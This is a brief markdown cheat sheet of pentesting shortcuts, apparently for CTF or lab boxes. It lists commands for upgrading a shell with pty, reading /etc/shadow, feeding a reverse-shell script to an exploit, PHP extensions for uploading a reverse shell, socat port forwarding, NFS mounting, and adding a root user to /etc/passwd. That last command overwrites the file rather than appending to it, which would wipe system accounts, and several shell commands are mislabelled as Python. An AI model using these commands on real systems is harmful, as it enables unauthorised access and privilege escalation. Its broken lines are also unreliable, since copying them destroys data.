 [back]()
## Tricks
Here are some handy tricks to enhance your pentesting workflow:

---
#### Spawn a fully interactive shell:
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

#### scan rpc port
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```

#### Read file:
```python
xxd -r file.txt 
base64 /etc/shadow | base64 -d
```
`l\s`: Equivalent to `ls`

#### if command to long
```python
python3 py.py 10.10.13.118 "$(cat revshell.ps1)"
```

#### Decompress a gzip file:
```
gzip -d file.gz
```
#### Change file without vim or nano
```
cat > file << EOF 
....
EOF
```

#### php extensions to run revsell
```
.php
.php3
.php4
.php5
.phtml
```

#### broken png image
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
#### NFS share
```
mkdir tmp/
sudo mount -t nfs 10.10.104.64: tmp
tree tmp
```

#### socat if open port
```python
./socat tcp-listen:7777,reuseaddr,fork tcp:localhost:6666
```

#### create new user in /etc/passwd with root

```
echo "user:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash" > /etc/passwd
```

fix PATH in old ubuntu
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
ltrace -  is a debugging utility in Linux, used to display the calls a userspace application makes to shared libraries.

